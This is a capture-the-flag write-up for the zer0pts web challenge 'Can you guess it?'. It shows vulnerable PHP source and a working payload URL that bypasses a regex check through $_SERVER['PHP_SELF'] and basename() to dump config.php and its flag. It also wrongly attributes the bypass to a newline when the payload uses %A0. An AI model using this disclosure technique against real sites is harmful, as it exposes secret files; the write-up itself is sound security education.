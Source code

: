 # zer0pts : Can you guess it? 

**Solver:** davx

**Category:** web

**Points:** 338

**Description:** [Challenge](http://18.179.178.246:8003/)

## Writeup

If you enter the Challenge site you see a input form where you can enter your guess and a link to the source of the page. 
The source of the page looks like this:
```PHP
<?php
include 'config.php'; // FLAG is defined in config.php

if (preg_match('/config\.php\/*$/i', $_SERVER['PHP_SELF'])) {
  exit("I don't know what you are thinking, but I won't let you read it :)");
}

if (isset($_GET['source'])) {
  highlight_file(basename($_SERVER['PHP_SELF']));
  exit();
}

$secret = bin2hex(random_bytes(64));
if (isset($_POST['guess'])) {
  $guess = (string) $_POST['guess'];
  if (hash_equals($secret, $guess)) {
    $message = 'Congratulations! The flag is: ' . FLAG;
  } else {
    $message = 'Wrong.';
  }
}
?>
[HTML STUFF]
```
You can see that the "guess" section is impossible to guess right. That means we have to extract the flag in another way than guessing the right number. The first idea that comes up is an ```$_SERVER['PHP_SELF']``` injection. 

A payload for this would look like
```
http://18.179.178.246:8003/index.php/config.php?source
```
This would cause that ```$_SERVER['PHP_SELF'] = /index.php/config.php``` and if we apply ```basename()``` on it we get the output ```basename($_SERVER['PHP_SELF']) = config.php```. Unfortunately the code checks if the ```$_SERVER['PHP_SELF']``` ends with ```config.php```, 
but the ```preg_match()``` only returns true if there is no char or content after the ```config.php``` part. 

Furthermore the ```basename()``` function will ignore a new line character which would cause a false in the ```preg_match()``` function.

So this is the final payload:
```
http://18.179.178.246:8003/index.php/config.php/%A0?source
```

And we get the content of the config file
```
<?php
define('FLAG', 'zer0pts{gu3ss1ng_r4nd0m_by73s_1s_un1n73nd3d_s0lu710n}');
```